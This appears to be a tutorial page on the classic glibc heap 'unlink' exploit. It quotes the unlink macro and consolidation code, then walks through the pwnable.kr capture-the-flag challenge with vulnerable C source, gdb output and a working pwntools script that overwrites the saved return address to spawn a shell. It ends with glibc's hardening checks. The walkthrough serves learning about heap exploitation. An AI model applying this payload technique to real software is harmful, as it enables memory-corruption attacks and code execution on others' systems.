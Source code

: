 # Unlink Exploit

The unlink exploit was first described in  [Phrack \#57](http://www.phrack.org/issues/57/8.html#article).  Whilst it was probably the most effective method of exploiting the heap during it's heyday, the updates made add a couple of protections which neuter it's effectiveness in modern systems.

In the unlink exploit, the goal is to exploit the following macro:

```c
#define unlink(AV, P, BK, FD) {                                            \
    if (__builtin_expect (chunksize(P) != prev_size (next_chunk(P)), 0))      \
      malloc_printerr ("corrupted size vs. prev_size");                              \
    FD = P->fd;                                                                      \
    BK = P->bk;                                                                      \
    if (__builtin_expect (FD->bk != P || BK->fd != P, 0))                      \
      malloc_printerr ("corrupted double-linked list");                              \
    else {                                                                      \
        FD->bk = BK;                                                              \
        BK->fd = FD;                                                              \
        if (!in_smallbin_range (chunksize_nomask (P))                              \
            && __builtin_expect (P->fd_nextsize != NULL, 0)) {                      \
            if (__builtin_expect (P->fd_nextsize->bk_nextsize != P, 0)              \
                || __builtin_expect (P->bk_nextsize->fd_nextsize != P, 0))    \
              malloc_printerr ("corrupted double-linked list (not small)");   \
            if (FD->fd_nextsize == NULL) {                                      \
                if (P->fd_nextsize == P)                                      \
                  FD->fd_nextsize = FD->bk_nextsize = FD;                      \
                else {                                                              \
                    FD->fd_nextsize = P->fd_nextsize;                              \
                    FD->bk_nextsize = P->bk_nextsize;                              \
                    P->fd_nextsize->bk_nextsize = FD;                              \
                    P->bk_nextsize->fd_nextsize = FD;                              \
                  }                                                              \
              } else {                                                              \
                P->fd_nextsize->bk_nextsize = P->bk_nextsize;                      \
                P->bk_nextsize->fd_nextsize = P->fd_nextsize;                      \
              }                                                                      \
          }                                                                      \
      }                                                                              \
}
```

The unlink macro removes a chunk from a bin which stores chunks as a double linked-list.  The macro in effect takes the pointers to FD and BK, and modifies the adjacent chunks to effectively remove itself from this double-linked list.  This ocurrs via the following:  

```c
FD = P->fd;                                                                      \
BK = P->bk;
FD->bk = BK;                                                              \
BK->fd = FD;
```

If we control P, we control FD and BK, which gives us an arbitrary write onto the memory.

#### Consolidate Backwards

glibc likes to keep the heap tidy, so if two adjacent chunks in memory are both free, why not merge them?  This action happens through the previous inuse bit set within a chunk.  If a chunk has it's previous inuse bit set, then it will consolidate them through the following action.

```c
#define chunk_at_offset(p, s)  ((mchunkptr) (((char *) (p)) + (s)))
```

```c
    /* consolidate backward */
    // Is the previous chunk free?
    if (!prev_inuse(p)) {
      prevsize = prev_size (p);
       // add previous chunk size to current size
      size += prevsize;
       // move data pointer back to merge both chunks
       // i.e. change chunk pointer to point to current chunk
      p = chunk_at_offset(p, -((long) prevsize));
      // unlink from from the bin
      
      unlink(av, p, bck, fwd);
    }
```

This chunk is then placed within the unsorted chunk list, as it is given a chance to be re-allocated before being placed in a regular bin, but that's not as important to the crux of the exploit.  

## Example 1: pwnable.kr

I'll walk through an example from pwnable.kr which will allow us to demonstrate the unlink exploit.  This implements a custom unlink method.  Since this doesn't contain the hardening done by glibc, it makes it much easier to show how this was done originally. 

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
typedef struct tagOBJ{
	struct tagOBJ* fd;
	struct tagOBJ* bk;
	char buf[8];
}OBJ;

void shell(){
	system("/bin/sh");
}

void unlink(OBJ* P){
	OBJ* BK;
	OBJ* FD;
	BK=P->bk;
	FD=P->fd;
	FD->bk=BK;
	BK->fd=FD;
}
int main(int argc, char* argv[]){
	malloc(1024);
	OBJ* A = (OBJ*)malloc(sizeof(OBJ));
	OBJ* B = (OBJ*)malloc(sizeof(OBJ));
	OBJ* C = (OBJ*)malloc(sizeof(OBJ));

	// double linked list: A <-> B <-> C
	A->fd = B;
	B->bk = A;
	B->fd = C;
	C->bk = B;

	printf("here is stack address leak: %p\n", &A);
	printf("here is heap address leak: %p\n", A);
	printf("now that you have leaks, get shell!\n");
	// heap overflow!
	gets(A->buf);

	// exploit this unlink!
	unlink(B);
	return 0;
}
```

We have the stack and heap addresses, so ASLR is no longer an issue.  In this the data being passed into A is not bounds checked, so we need to write a fake chunk into A, and overwrite the fd and bk pointers in B.  

```text
(gdb) r
Starting program: /home/unlink/unlink 
here is stack address leak: 0xffb07fe4
here is heap address leak: 0x91ae410
now that you have leaks, get shell!
```

```text
(gdb) p shell
$2 = {<text variable, no debug info>} 0x80484eb <shell>
```

```text
(gdb) x/6x 0x91ae410   <==== A
0x91ae410:	0x091ae428	0x00000000	0x00000000	0x00000000
0x91ae420:	0x00000000	0x00000019
(gdb) x/6x 0x91ae410+4*6 <====== B
0x91ae428:	0x091ae440	0x091ae410	0x00000000	0x00000000
0x91ae438:	0x00000000	0x00000019
```

Since it exits immediately after we're going to want to overwrite eip, which we can calculate from the stack leak.

We only need to do a 4-byte overwrite into the B struct as we'll just overwrite fwd

```text
typedef struct tagOBJ{
	struct tagOBJ* fd;
	struct tagOBJ* bk;
	char buf[8];
}OBJ;
```

By overwriting fd with EIP:

```text
FD->bk=BK;
BK->fd=FD;
```

So we need to write to fill the current allocation plus 4 bytes which will be the address of EBP-4.

```python
from pwn import *
s=ssh(host='pwnable.kr' ,port=2222,  user='unlink', password='guest')

r = s.process('./unlink')
r.recvuntil(' stack address leak: ')
stack = r.recvline()
r.recvuntil(' heap address leak: ')
heap = r.recvline()

print stack
print heap

ebp = int(stack, 0) - 0x20
heap = int(heap,0)
shell = 0x80484eb

payload = p32(shell)
payload += p32(heap+12)
payload += p32(0x19)
payload += p32(0x19)
payload += p32(ebp) #fd
payload += p32(heap+16) #bk

r.sendafter(' get shell!', payload)
r.interactive()
```

## Modern Hardening Measures

These protections can be bypassed but only in very specific circumstances, so it's very difficult to give a list of bypasses.  In effect, you need to ensure that you can write memory in such a way that these checks are bypassed, as effectively they are just two integer comparisons.

### corrupted\_size vs prev\_size

The following code checks the integrity of the chunk:

```c
chunksize(P) != prev_size (next_chunk(P))
```

This is not a major issue in the case of forging chunks, but if given a single null-byte overwrite it can interfere with any attempts to create an unlink-exploit.

### corrupted double-linked list

```c
FD->bk != P || BK->fd != P
```

A basic integrity check to ensure that the double-linked list structure is intact.  This again means you can't perform an arbitrary write-what, where.





